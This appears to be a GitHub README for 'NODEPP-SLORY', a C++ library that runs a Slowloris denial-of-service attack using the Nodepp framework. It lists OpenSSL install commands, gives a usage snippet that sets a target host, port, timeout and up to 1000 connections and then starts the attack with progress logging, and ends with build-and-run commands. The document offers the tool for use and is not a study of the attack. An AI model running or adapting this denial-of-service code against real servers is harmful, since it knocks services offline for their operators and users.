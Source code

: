 # NODEPP-SLORY

A DDoS Slowloris algorithm using Nodepp

## Dependencies

- **Openssl**
    - 🪟: `pacman -S mingw-w64-ucrt-x86_64-openssl`
    - 🐧: `sudo apt install libssl-dev`

# Usage

```cpp
#include <nodepp/nodepp.h>
#include <slory.h>

using namespace nodepp;

void onMain(){

    slory_config_t args;
    args.host     = "localhost";
    args.IPPROTO  = IPPROTO_TCP;
    args.timeout  = 10000;
    args.maxconn  = 1000;
    args.port     = 8000;

    auto slory = slory::tcp( args );
    console::log("slowlory started");

    slory.onProgress([=]( uint a, uint b ){
        console::log( "->", a, b );
    });

}
```

# Build & Run

- 🪟: `g++ -o main main.cpp -I ./include -lssl -lcrypto -lws2_32 ; ./main`
- 🐧: `g++ -o main main.cpp -I ./include -lssl -lcrypto ; ./main`
